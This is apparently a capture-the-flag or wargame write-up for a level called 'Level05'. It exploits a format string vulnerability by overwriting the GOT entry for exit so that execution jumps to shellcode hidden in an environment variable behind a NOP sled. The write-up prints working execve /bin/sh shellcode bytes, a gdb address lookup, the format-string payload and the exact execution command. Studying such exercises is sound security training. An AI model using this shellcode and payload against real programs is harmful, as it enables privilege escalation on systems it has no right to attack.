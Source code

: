 # Level05

## Vulnerability type:

Format String Vulnerability, Return-to-Libc (RET2LIBC)

## Walkthrough:

The program has a Format String Vulnerability, and it also calls the `exit` function. We can use this to our advantage by modifying the Global Offset Table (GOT) entry for `exit` to redirect program flow.

The issue here is that the program is applying a `to_lowercase` function on the buffer and it impacts the shell code we injected.

To bypass that, need to store the shellcode inside an environment variable and access it from the program. By using the `env -i` command (start with empty env) and a NOP sled, we increase our chances to reach the shellcode.

## Payload:

### Finding the redirection address

```bash
$ env -i SHELLCODE=$(python -c "print('\x90' * 420 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')") gdb ./level05
```

```sh
(gdb) x/20s *((char **)environ)
0xffffdde4:	 "COLUMNS=104"
0xffffddf0:	 "PWD=/home/users/level05"
0xffffde08:	 "LINES=50"
0xffffde11:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220 [...]
    [...]

```
The env variables starting address is `0xffffde11`.

We are going to add `0xD2` (210) to it to aim the middle of our NOP sled.

Final address : `0xFFFFDEE3`

```bash
$ python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%57051x%10$n" + "%8476x%11$n"' > /tmp/05
```

### Execution

```bash
$ cat /tmp/05 - | env -i SHELLCODE=$(python -c "print('\x90' * 420 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')") ./level05
```
